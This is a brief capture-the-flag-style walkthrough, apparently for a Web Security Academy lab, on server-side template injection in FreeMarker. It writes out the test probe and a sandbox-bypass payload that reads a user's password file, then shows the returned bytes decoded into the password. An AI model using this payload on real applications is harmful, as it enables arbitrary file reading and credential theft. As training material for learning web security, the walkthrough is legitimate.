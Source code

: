 ```bash
$[7*7]

Go to:

https://0a8100a2036f7f77c0bc1b8a002d005d.web-security-academy.net/product/template?productId=1

Input:

$[class.getResource("").getPath()]

Preview
Response:

FreeMarker template error 

Go to:

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#freemarker

Change:

$[product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('path_to_the_file').toURL().openStream().readAllBytes()?join(" ")]

To

$[product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos/my_password.txt').toURL().openStream().readAllBytes()?join(" ")]

Preview
Response:

52 121 114 54 52 48 121 101 100 119 57 105 104 114 114 103 109 53 48 51

Convert the returned bytes to ASCII

Go to:

https://onlineasciitools.com/convert-bytes-to-ascii
Input:

52 121 114 54 52 48 121 101 100 119 57 105 104 114 114 103 109 53 48 51

Output:

4yr640yedw9ihrrgm503

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220602013445.png)

